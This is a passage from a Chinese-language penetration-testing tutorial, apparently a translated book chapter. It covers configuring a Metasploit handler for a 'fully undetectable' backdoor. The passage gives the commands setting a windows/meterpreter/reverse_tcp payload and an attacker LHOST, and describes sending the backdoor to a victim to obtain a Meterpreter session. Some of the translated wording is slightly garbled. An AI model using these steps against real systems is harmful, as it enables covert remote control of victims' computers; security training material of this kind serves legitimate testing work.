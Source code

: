 然后，只需在该处理程序中设置所有有效负载详细信息，并将其发送给受害者。输入`set PAYLOAD <your payload name>`；例如，这里我们使用的是`set PAYLOAD windows/meterpreter/reverse_tcp`。

![Creating a fully undetectable backdoor](img/3589_10_25.jpg)

之后，设置您为后门 EXE 文件提供的本地主机地址。输入`set LHOST <IP address>`；例如，这里我们使用的是`set LHOST 192.168.0.103`。

![Creating a fully undetectable backdoor](img/3589_10_26.jpg)

这是最后一种也是最后一种使用攻击技术的攻击，我们将看到反向处理程序连接已准备好接收连接。

![Creating a fully undetectable backdoor](img/3589_10_27.jpg)

执行后门后，将成功建立反向连接，并在攻击者的系统上生成 MeterMeter 会话。

![Creating a fully undetectable backdoor](img/3589_10_28.jpg)
